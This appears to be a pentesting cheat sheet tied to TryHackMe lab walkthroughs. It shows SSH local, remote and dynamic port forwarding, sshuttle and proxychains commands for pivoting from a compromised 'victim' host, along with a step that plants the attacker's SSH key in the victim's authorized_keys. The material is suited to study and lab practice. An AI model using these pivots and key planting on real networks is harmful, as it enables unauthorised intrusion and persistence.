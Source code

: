 # Lateral Movement and Pivoting

## SSH Proxy Chaining

### SSH Local Port Forwarding

**Examples**

[game-zone.md](../../walkthroughs/tryhackme/game-zone.md "mention")[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Allows us to gain access to the service running on port 10000 from Kali that was only accessible to the victim from their machine.

**Kali**

```
ssh -L 10000:localhost:10000 $USERNAME@$VICTIM
Password: $ASSWORD
```

### SSH Remote Port Forwarding

**Examples**

&#x20;[#ssh-remote-port-forwarding](../../walkthroughs/tryhackme/lateral-movement-and-pivoting.md#ssh-remote-port-forwarding "mention")

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

<figure><img src="../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

<figure><img src="../../.gitbook/assets/image (112) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
useradd tunneluser
passwd tunneluser
```

**Victim**

```
ssh tunneluser@$KALI -R 8888:thmdc.za.tryhackme.com:80 -L *:1990:127.0.0.1:1990 -L *:1029:127.0.0.1:1029 -N
```



## sshuttle

**Examples**

[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Kali**

```
apt install sshuttle
sshuttle -r $USERNAME@$VICTIM 127.0.0.1/24
Password: $PASSWORD
```

### SSH

**Examples**

[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")[vulnnet-internal.md](../../walkthroughs/tryhackme/vulnnet-internal.md "mention")

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

copy paste id\_rsa.pub from Kali to the Victim server

```
copy id_rsa.pub to /home/$VICTIM/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 $USERNAME@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40) (4).png" alt=""><figcaption></figcaption></figure>



